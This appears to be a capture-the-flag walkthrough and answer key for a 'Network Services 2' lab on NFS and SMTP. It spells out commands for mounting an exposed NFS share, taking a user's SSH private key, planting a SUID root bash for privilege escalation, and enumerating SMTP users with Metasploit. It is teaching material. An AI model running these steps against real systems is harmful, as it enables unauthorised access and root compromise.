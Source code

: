 # Network Services 2 (Draft)

Difficulty: Easy

## Task 1 - Get Connected

- Ready? Let's get going!

	  no answer needed

## Task 2 - Understanding NFS

- What does NFS stand for?

	- `Network File System`

- What process allows an NFS client to interact with a remote directory as though it was a physical device?

	- `Mounting`

- What does NFS use to represent files and directories on the server?

	- `file handle`

- What protocol does NFS use to communicate between the server and client?

	- `rpc`

- What two pieces of user data does the NFS server take as parameters for controlling user permissions? Format: parameter 1 / parameter 2

	- `user id / group id`

- Can a Windows NFS server share files with a Linux client? (Y/N)

	- `Y`

- Can a Linux NFS server share files with a MacOS client? (Y/N)

	- `Y`

- What is the latest version of NFS? [released in 2016, but is still up to date as of 2020] This will require external research.

	- `*.2`

## Task 3 - Enumerating NFS

- Conduct a thorough port scan of your choosing, how man ports are open?

	- `nmap -p- -A <TARGET_IP>`
	- `7`
	
- Which port contains the service we're looking to enumerate?

	- `2049`
	
- Now, use /usr/sbin/showmount -e [IP] to list the NFS shares, what is the name of the visible share?

	- `/home`
	
- First, use *"mkdir /tmp/mount"* to create a directory on your machine to mount the share to. This is in the /tmp directory- so be aware that it will be removed on restart. Then, use the mount command we broke down earlier to mount the NFS share to your local machine. Change directory to where you mounted the share- what is the name of the folder inside?	
	
	- `sudo mount -t nfs <TARGET_IP>:/**** /tmp/mount -nolock`
	- `cappucino`
	
- Have a look inside this directory, look at the files. Looks like  we're inside a user's home directory...

	  no answer needed

- Interesting! Let's do a bit of research now, have a look through the folders. Which of these folders could contain keys that would give us remote access to the server?

	- `.ssh`

- Which of these keys is most useful to us?

	- `id_rsa`

- Can we log into the machine using ssh -i <key-file> <username>@<ip> ? (Y/N)

	- `chmod 600 id_rsa`
	- `ssh -i id_rsa *********@<TARGET_IP>`
	- `Y`
	
## Task 4 - Exploiting NFS

- First, change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.

	  no answer needed

- Download the bash executable to your Downloads directory. Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"

	  no answer needed

- Now, we're going to add the SUID bit permission to the bash executable we just copied to the share using "sudo chmod +[permission] bash". What letter do we use to set the SUID bit set using chmod?

	- `s`

- Let's do a sanity check, let's check the permissions of the "bash" executable using "ls -la bash". What does the permission set look like? Make sure that it ends with -sr-x.

	- `-rwsr-sr-x`

- Now, SSH into the machine as the user. List the directory to make sure the bash executable is there. Now, the moment of truth. Lets run it with "./bash -p". The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.

	  no answer needed

- Great! If all's gone well you should have a shell as root! What's the root flag?

	- `********************`

## Task 5 - Understanding SMTP

- What does SMTP stand for?

	- `Simple Mail Transfer Protocol`
	
- What does SMTP handle the sending of?

	- `emails`

- What is the first step in the SMTP process?

	- `SMTP handshake`

- What is the default SMTP port?

	- `25`

- Where does the SMTP server send the email if the recipient's server is not available?

	- `smtp queue`

- On what server does the Email ultimately end up on?

	- `pop/imap`

- Can a Linux machine run an SMTP server? (Y/N)

	- `Y`

- Can a Windows machine run an SMTP server? (Y/N)

	- `Y`
	
## Task 6 - Enumerating SMTP

- First, lets run a port scan against the target machine, same as last time. What port is SMTP running on?

	- `nmap -A -p- <TARGET_IP>`
	- `**`

- Okay, now we know what port we should be targeting, let's start up Metasploit. What command do we use to do this?

	- `msfconsole`

- Let's search for the module `smtp_version`, what's it's full module name?

	- `search smtp_version`
	- `auxiliary/scanner/smtp/smtp_version`

- Great, now- select the module and list the options. How do we do this?

	- `options`

- Have a look through the options, does everything seem correct? What is the option we need to set?

	- `rhosts`

- Set that to the correct value for your target machine. Then run the exploit. What's the system mail name?

	- `polosmtp.home`

- What Mail Transfer Agent (MTA) is running the SMTP server? This will require some external research.

	- `postfix`

- Good! We've now got a good amount of information on the target system to move onto the next stage. Let's search for the module `smtp_enum`, what's it's full module name?

	- `search smtp_enum`
	- `auxiliary/scanner/smtp/smtp_enum`

- What option do we need to set to the wordlist's path?

	- `user_file`

- Once we've set this option, what is the other essential paramater we need to set?

	- `RHOSTS`

- Now, set the THREADS parameter to 16 and run the exploit, this may take a few minutes, so grab a cup of tea, coffee, water. Keep yourself hydrated!

	  no answer needed

- Okay! Now that's finished, what username is returned?

	- `administrator`

